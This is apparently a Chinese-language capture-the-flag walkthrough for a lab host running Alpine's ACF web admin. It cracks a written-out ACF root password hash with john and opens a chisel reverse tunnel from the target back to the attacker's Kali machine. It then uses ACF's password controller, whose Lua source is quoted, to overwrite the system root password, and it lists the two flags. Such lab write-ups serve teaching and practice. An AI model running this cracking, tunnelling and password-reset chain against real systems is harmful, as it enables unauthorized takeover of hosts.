从格式上看，这个文件保存的是 `ACF` 自己的用户数据库，而不是系统 `/etc/shadow`。

要确认这一点，可以去看 ACF 的认证源码 `/usr/share/acf/lib/authenticator.lua`。

**爆破 ACF root 密码**

将哈希整理成 `john` 可识别的格式：

```bash
printf 'root:$5$rDkGkMAvv6FPpwRG$.gS5I9LcOiZDYGW598cgXDPEDvHI7GLl.UmVxgdyUQ0\n' > /tmp/acf_root.hash
```

然后进行爆破：

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha256crypt /tmp/acf_root.hash
```



最终得到明文密码：juggernaut

### Chisel 反向端口转发

攻击机 Kali 上开启反向隧道服务端：

```bash
chisel server --reverse -p 9999
```

这条命令的作用是：

- 在 Kali 上监听 9999
- 允许客户端建立反向端口映射
- --reverse 是关键，没有它客户端不能申请 R: 类型转发

目标机 xueli 上主动连回 Kali，并申请反向映射：

```bash
/tmp/chisel client 192.168.56.102:9999 R:8443:127.0.0.1:443
```

这条命令的作用是：

- 让目标机主动连接你的 Kali
- 把**目标机本地** 127.0.0.1:443
- 映射到**攻击机本地** 8443



使用凭证 root:juggernaut 登入成功



先看控制器 `/usr/share/acf/app/alpine-baselayout/password-controller.lua`：

```lua
-- the password controller
local mymodule = {}

mymodule.default_action = "edit"

mymodule.edit = function (self)
	return self.handle_form(self, self.model.read_password, self.model.update_password, self.clientdata, "Save", "Set System Password", "Password Set")
end

return mymodule
```

这段代码说明：

- 这个功能的默认动作就是 `edit`
- 页面标题就是 `Set System Password`
- 它会调用 `update_password`

接着看真正的逻辑 `/usr/share/acf/app/alpine-baselayout/password-model.lua`：

```lua
mymodule.read_password = function()
	pw = {}
	pw.user = cfe({ label="User Name", seq=1 })
	pw.password = cfe({ type="password", label="Password", seq=2 })
	pw.password_confirm = cfe({ type="password", label="Password (confirm)", seq=3 })
	return cfe({ type="group", value=pw, label="System Password" })
end

mymodule.update_password = function (self, pw)
	local success = true
	if pw.value.password.value == "" or pw.value.password.value ~= pw.value.password_confirm.value then
		pw.value.password.errtxt = "Invalid or non matching password"
		success = false
	end
	local filecontent = "\n"..(fs.read_file("/etc/shadow") or "")
	if pw.value.user.value == "" or not string.find(filecontent, "\n"..pw.value.user.value..":") then
		pw.value.user.errtxt = "Unknown user"
		success = false
	end

	if success then
		math.randomseed(os.time())
		local randomchar = function()
			local char = math.random(64)+string.byte('.')
			if char > string.byte('9') then char = char + 7 end
			if char > string.byte('Z') then char = char + 6 end
			return string.char(char)
		end
		local seed = randomchar() .. randomchar()
		newpass = posix.crypt(pw.value.password.value, seed)
		local new = string.gsub(filecontent, "(\n"..pw.value.user.value..":)[^:]*", "%1"..newpass)
		fs.write_file("/etc/shadow", string.sub(new, 2))
	else
		pw.errtxt = "Failed to set password"
	end

	return pw
end
```

这段代码需要完整解释，因为它就是预期解的终点。大概解释一下就是，这个页面不是“改 ACF 用户密码”，而是**直接改 Linux 系统用户密码**。

因此，如果我们已经登录成 ACF 的 `root` 管理员，那么只要有权限访问这个 controller，就可以直接把系统 `root` 密码改掉。

 然后访问 `/cgi-bin/acf/alpine-baselayout/password/edit` 接口修改密码即可



然后直接用修改的密 `Abc123` 登入就行



flag：

> **flag{user-a7048bfa96c2a4bbd4fbf76465e645fb}**
>
> **flag{root-e0694a86a8214b57d9bc3f8dae30bf33}**

